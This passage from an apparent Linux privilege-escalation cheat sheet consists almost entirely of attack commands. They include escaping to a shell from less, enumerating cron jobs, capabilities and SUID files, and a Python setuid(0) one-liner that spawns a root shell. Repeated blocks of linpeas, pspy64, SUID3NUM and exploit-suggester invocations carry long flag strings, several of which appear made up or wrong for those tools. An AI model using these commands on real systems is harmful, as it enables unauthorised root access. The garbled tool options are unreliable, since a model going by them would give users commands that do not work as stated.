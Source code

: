     :- Execute shell via less '!' command
    
    :- (Inside less, type !/bin/sh)
    
    :- Check Cron Jobs:    
    ls -la /etc/cron*
    
    cat /etc/crontab

    :- Check Capabilities:    
    getcap -r / 2>/dev/null

    :- Exploit capabilities (Assume /usr/bin/python has cap_setuid+ep)    
    https://gtfobins.github.io/gtfobins/python/
    
    :- Use python capability to get root shell
    /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")' 

    ::- Linux PrivEsc Check Scripts (Re-iteration with common flags)    
    :- Run all checks (noisy)
    linpeas.sh -a
    
    :- Linux Smart Enumeration, level 0 (quick overview)
    lse.sh -i -l 0
    ----
    linpeas.sh
    linpeas.sh -a -t -s -p -c -S -r -e -P -C
    linux-exploit-suggester.sh -k 5.4.0-26-generic
    pspy64
    pspy64 -p -i -U -C -f
    SUID3NUM -q -p -s -g
    ------
    linpeas.sh -a -t -s -p -c -S -r -e -P -C -l -u -n -i -d /tmp -w /tmp/writable
    linux-exploit-suggester.sh -k $(uname -r) -l
    searchsploit Linux kernel $(uname -r)
    find / -perm -u=s -type f 2>/dev/null
    find / -perm -g=s -type f 2>/dev/null
    find / -writable -type d 2>/dev/null
    find / -user $(whoami) -perm -0400 -type f 2>/dev/null
    pspy64 -p -i -U -C "/bin/bash" -f "root"
    SUID3NUM -q -p -s -g -w
    ------
    linpeas.sh -a -t -s -p -c -S -r -e -P -C -l -u -n -i -d /tmp -w /tmp/writable -b -o /tmp/linpeas_full.txt
    linux-exploit-suggester.sh -k $(uname -r) -l -c
    searchsploit Linux kernel $(uname -r) local privesc
    find / -perm -o=w -type f 2>/dev/null
    find / -nouser -o -nogroup -type f 2>/dev/null
    find / -name "*.so" -perm -u=s -type f 2>/dev/null
    pspy64 -p -i -U -C "/usr/bin/sudo" -f "$(whoami)"
    SUID3NUM -q -p -s -g -w -v

#### 6.1.2 Windows Privilege Escalation
    :- Find interesting files/permissions:
    